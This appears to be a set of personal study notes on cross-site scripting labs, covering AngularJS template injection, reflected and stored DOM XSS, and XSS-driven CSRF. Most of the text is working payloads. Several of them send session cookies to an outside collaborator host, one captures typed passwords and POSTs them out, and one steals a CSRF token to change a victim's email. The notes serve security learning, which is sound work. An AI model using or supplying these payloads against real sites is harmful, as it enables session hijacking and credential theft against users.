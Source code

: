 source code reveal `document.write` is the sink used with `location.search` allowing us to add `storeId` query parameter with a value containing the JavaScript payload inside a `<select>` statement.
2. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded.  
angularJS - `ng-app` in HTML or `angular 1-7-7.js`  
We simply detect this vuln in Search functionality via passing `{{7*7}}`
```
{{constructor.constructor('alert(1)')()}}
Or
{{$on.constructor('alert(1)')()}}
Or
{{$eval.constructor('alert(1)')()}}
```
Adapted version:
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
Or 
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```
Note: The session cookie property must not have the HttpOnly secure flag set in order for XSS to succeed.
3. Reflected DOM XSS  
```
\"-alert()}//
```
Adapted:
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
4. Stored DOM XSS  
Function replaces first angle brakets only:
```
<><img src=1 onerror=alert(1)>
```
Adapted:
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```
5. Exploiting cross-site scripting to steal cookies  
```
<script>document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</script>
```
6. Exploiting cross-site scripting to capture passwords  
You can create new form in comment section to steal passwords
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">document.write()
```

7. Exploiting XSS to perform CSRF
There is protection against CSRF, so we need to use the other user's CSRF token in our payload
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() 
{    
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];    
var changeReq = new XMLHttpRequest();    
changeReq.open('post', '/my-account/change-email', true);    
changeReq.send('csrf='+token+'&email=test@test.com')};
</script>
```